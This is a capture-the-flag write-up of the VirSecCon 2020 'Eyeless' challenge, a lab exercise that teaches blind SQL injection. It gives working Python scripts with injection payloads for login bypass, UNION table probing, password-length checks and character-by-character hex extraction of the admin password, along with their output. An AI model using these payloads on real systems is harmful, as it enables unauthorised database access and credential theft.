


VirSecCon CTF was the CTF as part of the Virtual Security Conference in April 2020 during the COVID-19 pandemic. This CTF was put on by [John Hammond](https://www.youtube.com/channel/UCVeW9qkBjo3zosnqUbG7CFw) and feature many great introductory and moderate challenges. I competed by myself and overall I finished in 35th place (or 36th depending on where you look) out of 1536.



One challenge that was really fun, that I thought I would capture a writeup for was a Blind SQL injection challenge, called **Eyeless**

<!--more-->



The homepage to this challenge presented a very basic login page.


Testing for a quick SQL injection payload (`' or 1=1 -- `) for the user name got us logged in but we were told we were successful but that was not the flag.


I immediately knew this meant the password was the flag. We would need to tease it out via a blind sql injection.

Throwing in an erronous login, we were given a different error message.


But a dectected hacking attempt gains us a hacker warning


So lets head to python and use the requests library to solve this.

First lets check out the source code to figure out how to interact with the pages. We quickly can discover the home page is at `index.php`. With the following HTML code returned.

```html
<html>
 <head>
 <title> Eyeless </title>
 <style>
 html{

     background-color: skyblue;
 }
 body{
     padding: 16%;
     background-color: rgba(255,255,255,.3);
 }
 </style>
 </head>
 <body>
 <!-- <h1>Eyeless</h1> -->

<h1> Please Login </h1>
<form method="POST" action="#">
    <p> Username: </p>
    <p> <input type="text" name="username" placeholder="Username" autofocus="true"> </p>
    <p> Password: </p>
    <p> <input type="password" name="password" placeholder="Password"> </p>
    <p><input type="submit" value="Submit"></p>

</form>
    
<hr> 
<!-- ..................................................... -->

</pre>
</body>
</html>

```

So we see our form uses a `POST` to itself with two data fields: `username` and `password`. Let's quickly get our base script started to have a successful and unsuccessful login to the site.


```python
#!/usr/bin/env python3

import requests
import re
from binascii import unhexlify

patt = re.compile('LLS{.*?}')

s = requests.session()
url = "http://jh2i.com:50011/"

```
These will just be our imports we will need later and some of our global variables.

```python

def fail_login():
    username = "admin"
    password = "admin"
    data = {'username': username, "password": password}
    r = requests.post(url, data=data)
    print(r.text)


def good_login():
    username = "' or 1=1 -- "
    password = "whatevs"
    data = {'username': username, "password": password}
    r = requests.post(url, data=data)
    print(r.text)


fail_login()
good_login()
```

These two quick functions will show us that we can hit the server properly.

Our output from above is the following:

```html
<html>
  <head>
  <title> Eyeless </title>
  <style>
     html{

       background-color: skyblue;
     }
 body{
 	padding: 16%;
 	background-color: rgba(255,255,255,.3);
 }
 </style>
 </head>
 <body>
 <!-- <h1>Eyeless</h1> -->

ERR: USERNAME AND PASSWORD PAIR NOT FOUND IN THE DATABASE

<html>
 <head>
 <title> Eyeless </title>
 <style>
 html{

 	background-color: skyblue;
 }
 body{
 	padding: 16%;
 	background-color: rgba(255,255,255,.3);
 }
 </style>
 </head>
 <body>
 <!-- <h1>Eyeless</h1> -->
 
Good job, but no flag here. :[
</pre>
</body>
</html>
```
 

 Based on this, I can assume the following is the SQL query that we can inject into:
 
 
 ```
 SELECT * FROM user where username='$USER' and password='$PASS';
 ```
 
 We can confirm the table name with a quick **UNION** injection with the following code.
 

```
#!/usr/bin/env python3

def confirm_tablename():
    username = "' union select * from users --  "
    password = "whatevs"
    data = {'username': username, "password": password}
    r = requests.post(url, data=data)
    if 'Good job' in r.text:
        print('Table name is users')

def deny_tablename():
    username = "' union select * from nosuchtablename --  "
    password = "whatevs"
    data = {'username': username, "password": password}
    r = requests.post(url, data=data)
    if 'ERR' in r.text:
        print('Table name is not nosuchtablename')

confirm_tablename()
deny_tablename()
```

The output of these functions is:

```
Table name is users
Table name is not nosuchtablename
```

Following along with the UNION attack we want to find the valid username which we will guess is `admin`. The following will allow us to confirm that hypothesis.

```python
#!/usr/bin/env python3

import requests
import re
from binascii import unhexlify

patt = re.compile('LLS{.*?}')

s = requests.session()

url = "http://jh2i.com:50011/"

r = s.get(url)

def confirm_admin():
    username = "' union select * from users where username='admin'  --  "
    password = "whatevs"
    data = {'username': username, "password": password}
    r = requests.post(url, data=data)
    if 'Good job' in r.text:
        print('User is admin')


def deny_admin():
    username = "' union select * from users where username='madeye'  --  "
    password = "whatevs"
    data = {'username': username, "password": password}
    r = requests.post(url, data=data)
    if 'ERR' in r.text or 'HACKER' in r.text:
        print('User is not madeye')


confirm_admin()
deny_admin()
```

These functions give the following output:

```
User is admin
User is not madeye
```

Now we know the username, lets figure out the password. The first thing I like to do if figure out the length of the password. Using the `length` function in MySQL, we can discovery this using the following function:

```python
def get_len():
    payload = "admin' and length(password)=%d -- "
    data = {}
    data['password'] = 'whatevs'
    for i in range(70):
        data['username'] = payload % i
        r = requests.post(url, data=data)
        if 'Good job' in r.text:
            return(i)

length = get_len()
print(f'Length of password is {length}')
```

And the output shows us the password is 50 characters long.

```
Length of password is 50
```

Ok, now lets solve the password. We will use the `LIKE` and `%` operators in MySQL which is case insensitive, so we will also use the `hex` function to encode the password. So we will need to tease out 100 hex characters.

Our payload will be something like this:

`admin' and hex(password) LIKE 'KNOWN + next_char + %' --`

We will iterate through the valid hexcharacters until we get a match, then we will add that hex character to our known password and work until our known password length equals 100. Then we will decode the hex string to get the real password, which should be our flag.

We will confirm this really quick by using the hex encoded of our flag pattern (`LLS{`) which is `4c4c537b`.

```python
def confirm_password_is_flag():
    username = "admin' and hex(password) like '4c4c537b%' -- "
    password = "whatevs"
    data = {'username': username, "password": password}
    r = requests.post(url, data=data)
    if 'Good job' in r.text:
        print('The password starts with LLS{')

confirm_password_is_flag()
```
This give us the following output.

```
The password starts with LLS{
```

Ok, now lets get build the password one hex character at a time. We will start assuming nothing, and after getting a hit on a hex character, we will add that to our known string and iterate through the hex characters again. The main loop is below. We print out the known portion after each hit so we know we are making progress.

```python
username = "admin' and hex(password) like '{}%' -- "
password = "whatevs"

known = ""

hexchars = "0123456789abcdef"

while len(known) != length*2:
    for c in hexchars:
        creds = {'username':username.format(known+c), 'password':password}
        r = s.post(url, data=creds)
        if 'Good job' in r.text:
            known += c
            print("known",known)
            break

print(unhexlify(known).decode())

```

Our output and final flag look like this:

```
Length of password is 50
known 4
known 4c
known 4c4
known 4c4c
known 4c4c5
known 4c4c53
known 4c4c537
known 4c4c537b
known 4c4c537b6
known 4c4c537b62
known 4c4c537b626
known 4c4c537b626c
known 4c4c537b626c6
known 4c4c537b626c69
known 4c4c537b626c696
known 4c4c537b626c696e
known 4c4c537b626c696e6
known 4c4c537b626c696e64
known 4c4c537b626c696e645
known 4c4c537b626c696e645f
known 4c4c537b626c696e645f7
known 4c4c537b626c696e645f73
known 4c4c537b626c696e645f737
known 4c4c537b626c696e645f7371
known 4c4c537b626c696e645f73716
known 4c4c537b626c696e645f73716c
known 4c4c537b626c696e645f73716c5
known 4c4c537b626c696e645f73716c5f
known 4c4c537b626c696e645f73716c5f6
known 4c4c537b626c696e645f73716c5f69
known 4c4c537b626c696e645f73716c5f696
known 4c4c537b626c696e645f73716c5f696e
known 4c4c537b626c696e645f73716c5f696e6
known 4c4c537b626c696e645f73716c5f696e6a
known 4c4c537b626c696e645f73716c5f696e6a6
known 4c4c537b626c696e645f73716c5f696e6a65
known 4c4c537b626c696e645f73716c5f696e6a656
known 4c4c537b626c696e645f73716c5f696e6a6563
known 4c4c537b626c696e645f73716c5f696e6a65637
known 4c4c537b626c696e645f73716c5f696e6a656374
known 4c4c537b626c696e645f73716c5f696e6a6563746
known 4c4c537b626c696e645f73716c5f696e6a65637469
known 4c4c537b626c696e645f73716c5f696e6a656374696
known 4c4c537b626c696e645f73716c5f696e6a656374696f
known 4c4c537b626c696e645f73716c5f696e6a656374696f6
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f6
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f636
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f6361
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e7
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e74
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f6
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f626
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f6265
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f6
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f64
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e6
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e65
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f7
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f77
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f776
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f7769
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f77697
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f776974
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f7769746
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f77697468
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f776974685
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f776974685f
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f776974685f6
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f776974685f62
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f776974685f627
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f776974685f6272
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f776974685f62726
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f776974685f627261
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f776974685f6272616
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f776974685f62726169
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f776974685f627261696
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f776974685f627261696c
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f776974685f627261696c6
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f776974685f627261696c6c
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f776974685f627261696c6c6
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f776974685f627261696c6c65
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f776974685f627261696c6c657
known 4c4c537b626c696e645f73716c5f696e6a656374696f6e5f63616e745f62655f646f6e655f776974685f627261696c6c657d
LLS{blind_sql_injection_cant_be_done_with_braille}
```

So there it is, the password is the flag. `LLS{blind_sql_injection_cant_be_done_with_braille}`

The full solve script can be downloaded [here](../assets/scripts/eyeless_final_solve.py)
